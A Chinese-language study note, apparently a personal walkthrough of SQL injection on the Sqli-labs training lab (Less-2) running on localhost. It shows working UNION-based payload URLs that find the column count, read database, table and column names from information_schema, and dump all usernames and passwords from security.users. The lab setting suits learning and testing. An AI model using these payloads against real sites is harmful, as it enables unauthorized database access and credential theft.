 # sql注入

> 1、判断是否有注入
>
> 2、判断是什么类型的注入
>
> 3、语句是否能被修改（增加语句）
>
> 4、语句是否能够执行。



## 1、准备

### 1.1、工具

- Sqli-labs
- HackBar调试工具

### 1.2、表结构分析

原表结构：

![image-20211215111211664](C:\Users\Lance\AppData\Roaming\Typora\typora-user-images\image-20211215111211664.png)

## 2、注入语句

### 2.1、无注入，直接访问。

![image-20211215111354084](C:\Users\Lance\AppData\Roaming\Typora\typora-user-images\image-20211215111354084.png)

### 2.2、注入测试

#### 2.2.1、什么类型的注入？

>  参数：id=1 

正确！！！

![image-20211215145501982](C:\Users\Lance\AppData\Roaming\Typora\typora-user-images\image-20211215145501982.png)





======================================================================================

> 参数 id=1'

错误！报错，多了一个单引号。

![image-20211215145754925](C:\Users\Lance\AppData\Roaming\Typora\typora-user-images\image-20211215145754925.png)





=======================================================================================

> 参数：id=1"

![image-20211215150415994](C:\Users\Lance\AppData\Roaming\Typora\typora-user-images\image-20211215150415994.png)

#### 2.2.2、分析语句

初步判定

**select name,password from users where id=1 limit 0,1;**



#### 2.2.3 找出该表的列数

> 加上参数 order by 1/2/3   

http://localhost/sqli-labs-master/Less-2/?id=1 order by 1 #

![image-20211215152936710](C:\Users\Lance\AppData\Roaming\Typora\typora-user-images\image-20211215152936710.png)

http://localhost/sqli-labs-master/Less-2/?id=1 order by 2 #

![image-20211215153132794](C:\Users\Lance\AppData\Roaming\Typora\typora-user-images\image-20211215153132794.png)







http://localhost/sqli-labs-master/Less-2/?id=1 order by 3#

![image-20211215153228846](C:\Users\Lance\AppData\Roaming\Typora\typora-user-images\image-20211215153228846.png)

经过测试：发现当order by 4的时候，发现报出找不到列的错误，由此推断，发现该表有三列

![image-20211215153457323](C:\Users\Lance\AppData\Roaming\Typora\typora-user-images\image-20211215153457323.png)



联合查询

还可以通过联合查询的方式，找出该表拼接的数据是否成功

联合查询条件：**合并结果集的时候，需要查询字段对应个数相同**

例如：

![image-20211215154442832](C:\Users\Lance\AppData\Roaming\Typora\typora-user-images\image-20211215154442832.png)

![image-20211215154516203](C:\Users\Lance\AppData\Roaming\Typora\typora-user-images\image-20211215154516203.png)

![image-20211215154538798](C:\Users\Lance\AppData\Roaming\Typora\typora-user-images\image-20211215154538798.png)

我们可以发现，当联合语句union select 1,2,3的时候，可以查出相关信息，满足和第一条查询语句拼接的条件。

```sql
select 1,2,3
#其中，1，2，3代表着占位符，没有指明要查询哪一个数据库，哪一个表，就会生成列名为1,2,3 值为：1,2,3的一个表
```

### 2.3、注入查询

查询当前数据库的名子

#### 2.3.1、数据库信息

![image-20211215161029192](C:\Users\Lance\AppData\Roaming\Typora\typora-user-images\image-20211215161029192.png)

![image-20211215161308568](C:\Users\Lance\AppData\Roaming\Typora\typora-user-images\image-20211215161308568.png)

查出数据库名：http://localhost/sqli-labs-master/Less-2/?id=1111 union select 2,user() ,3 #

![image-20211215161523348](C:\Users\Lance\AppData\Roaming\Typora\typora-user-images\image-20211215161523348.png)

#### 2.3.2、所有数据库名

首先我们要知道：mysql里面所有的数据库名字都早information_schema里面的schema这个表里面

![image-20211215162034385](C:\Users\Lance\AppData\Roaming\Typora\typora-user-images\image-20211215162034385.png)

数据库所有表名都在：information_schema里面的tables这个表里面

![image-20211215162141934](C:\Users\Lance\AppData\Roaming\Typora\typora-user-images\image-20211215162141934.png)

数据库所有表里面的字段都在：information_schema里面column这个表里面

![image-20211215162255049](C:\Users\Lance\AppData\Roaming\Typora\typora-user-images\image-20211215162255049.png)





**所以我们可以注入查询所有数据库的名字**

![image-20211215162957801](C:\Users\Lance\AppData\Roaming\Typora\typora-user-images\image-20211215162957801.png)

查询所有的数据库名称

**concat()函数**

功能：将多个字符串连接成一个字符串。



![image-20211215164837739](C:\Users\Lance\AppData\Roaming\Typora\typora-user-images\image-20211215164837739.png)

#### 2.3.3、当前数据库名

http://localhost/sqli-labs-master/Less-2/?id=1111 union select 2,database(),3 from information_schema.schemata %23

![image-20211215165419185](C:\Users\Lance\AppData\Roaming\Typora\typora-user-images\image-20211215165419185.png)

#### 2.3.3、当前数据库名所有表名

http://localhost/sqli-labs-master/Less-2/?id=1111 union select 2,group_concat(table_name) ,3 from information_schema.tables where table_schema=database() %23

![image-20211215171416090](C:\Users\Lance\AppData\Roaming\Typora\typora-user-images\image-20211215171416090.png)

#### 2.3.4、当前表的所有字段

![image-20211215172353953](C:\Users\Lance\AppData\Roaming\Typora\typora-user-images\image-20211215172353953.png)

#### 2.3.5、查询所有的用户和密码

已经从上面知道数据库和表明，所以可以直接查询

http://localhost/sqli-labs-master/Less-2/?id=1111 union select 2,group_concat(username),group_concat(password) from security.users %23

![image-20211215173417013](C:\Users\Lance\AppData\Roaming\Typora\typora-user-images\image-20211215173417013.png)

拼接函数：

http://localhost/sqli-labs-master/Less-2/?id=1111 union select 2,group_concat(concat_ws(':',username,password)),3 from security.users %23

![image-20211215174934439](C:\Users\Lance\AppData\Roaming\Typora\typora-user-images\image-20211215174934439.png)